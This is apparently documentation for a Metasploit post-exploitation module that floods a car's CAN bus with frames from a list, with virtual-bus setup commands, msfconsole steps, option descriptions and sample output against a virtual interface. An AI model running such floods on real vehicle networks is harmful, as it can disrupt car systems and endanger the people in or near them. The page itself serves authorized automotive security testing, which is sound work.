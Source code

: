 ## Introduction

CAN Flood is a post-exploitation module that floods a CAN interface for a number of rounds. Both the interface and the number of rounds are to be provided as inputs. An example list of frames also is part of the inputs, and sources the flooding at each round. The module therefore is general as it is parametric in the frame list.

## Verification Steps

First, start up a virtual CAN bus:

1. `sudo modprobe can`
2. `sudo modprobe vcan`
3. `sudo ip link add dev vcan0 type vcan`
4. `sudo ip link set up vcan0`

Then do the thing:

5. Start `msfconsole`
6. `use auxiliary/server/local_hwbridge`
7. `set uripath trycanbus`
8. `run`
9. `use auxiliary/client/hwbridge/connect`
10. `set targeturi trycanbus`
11. `run`
12. `use post/hardware/automotive/can_flood`
13. `set canbus vcan0`
14. `set session 1`
15. `run`

## Options

**CANBUS**
Determines which CAN interface to use.

**FRAMELIST**
Path of the file that contains the list of frames. Default is "/usr/share/metasploit-framework/data/wordlists/can_flood_frames.txt".

**ROUNDS**
Number of executed rounds. Default is 200.

**SESSION**
The session to run this module on.

## Scenarios

The user must know a list of frames that generate an effect on the car. This is because the module is general as it is parametric in the frame list.
You can test the module by setting a virtual CAN interface and then execute the commands, thus obtaining the underlying output:

```
msf > use auxiliary/server/local_hwbridge
msf auxiliary(server/local_hwbridge) > run
[*] Auxiliary module running as background job 0.

[*] Using URL: http://0.0.0.0:8080/trycanbus
[*] Local IP: http://10.0.2.15:8080/trycanbus
[*] Server started.
msf auxiliary(server/local_hwbridge) > use auxiliary/client/hwbridge/connect
msf auxiliary(client/hwbridge/connect) > set targeturi trycanbus
targeturi => trycanbus
msf auxiliary(client/hwbridge/connect) > run

[*] Attempting to connect to 127.0.0.1...
[*] Hardware bridge interface session 1 opened (127.0.0.1 -> 127.0.0.1) at 2019-03-20 03:17:55 -0400
[+] HWBridge session established
[*] HW Specialty: {"automotive"=>true}  Capabilities: {"can"=>true, "custom_methods"=>true}
[!] NOTICE:  You are about to leave the matrix.  All actions performed on this hardware bridge
[!]          could have real world consequences.  Use this module in a controlled testing
[!]          environment and with equipment you are authorized to perform testing on.
[*] Auxiliary module execution completed
msf auxiliary(client/hwbridge/connect) > use post/hardware/automotive/can_flood 
msf post(hardware/automotive/can_flood) > set canbus vcan0
canbus => vcan0
msf post(hardware/automotive/can_flood) > set session 1
session => 1
msf post(hardware/automotive/can_flood) > run

[*]  -- FLOODING -- 
[*] Post module execution completed
```

